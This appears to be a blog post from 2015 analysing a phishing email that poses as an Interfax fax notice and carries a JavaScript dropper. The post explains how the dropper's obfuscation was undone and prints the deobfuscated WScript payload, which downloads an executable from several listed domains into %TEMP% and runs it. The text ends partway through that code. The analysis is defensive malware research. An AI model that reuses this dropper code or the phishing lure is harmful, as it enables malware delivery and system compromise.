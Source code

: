 ```yaml
---
title:  The raise of Javascript-droppers
date:   2015-11-29T13:13:13+01:00
draft: false
description: "How cyber criminals use javascript droppers"
toc: false
---
```


![interfaxgraphic](/img/behaviour.jpg)
A few weeks ago, i got the following email:

{{< highlight text >}}
New incoming fax document.

Scanned fax document is attached to this email.

Sender:            Lonnie Sloan
File name:         scan-00273548.doc
Scan duration:     48 seconds
Scanned:           Thu, 29 Oct 2015 16:04:40 +0300
Filesize:          186 Kb
Resolution:        600 DPI
Pages scanned:     10

Thanks for using Interfax service!
{{< / highlight >}}

First I've thought thats just spam as usual. But this time it should be a 
big malware campaign. Let us check out the attachment *scan-00273548.zip*.
If we unpack the zip-archive we will get a .doc.js file.. nice try. 

![sourcecode of .doc.js file](/img/img-2015-11-29-174834.png)

Ok thats messy. I've found a simple regex for deobfuscating it: *%s/; };/;
};\r/g*. Now we have one function per line and can watch over it without
headache. Seems like it's some simple arithmetic. They have in every function a
string and just return the string for adding the string with another string.
And the last function is executing the constructed string. In this sample this
payload lies in the *mzvc*-variable:

{{< highlight JavaScript >}}
var b = "hourlywhy.com yoakumdentalcare.com ncdivers.com".split(" "); 
var ws = WScript.CreateObject("WScript.Shell"); 
var fn = ws.ExpandEnvironmentStrings("%TEMP%")+String.fromCharCode(92)+"377492"; 
var xo = WScript.CreateObject("MSXML2.XMLHTTP"); 
var xa = WScript.CreateObject("ADODB.Stream"); 
var ld = 0; 
for (var n=1; n<=3; n++) { 
  for (var i=ld; i<b.length; i++) { 
    var dn = 0; 
    try { 
      xo.open("GET","http://"+b[i]+"/counter/?id="+str+"&rnd=167506"+n, false); 
      xo.send(); 
      if (xo.status == 200) { 
        xa.open(); 
        xa.type = 1; 
        xa.write(xo.responseBody); 
        if (xa.size > 1000) { 
          dn = 1; 
          xa.position = 0; 
          xa.saveToFile(fn+n+".exe",2); 
          try {  ws.Run(fn+n+".exe",1,0); } 
          catch (er) { }; 
        }; 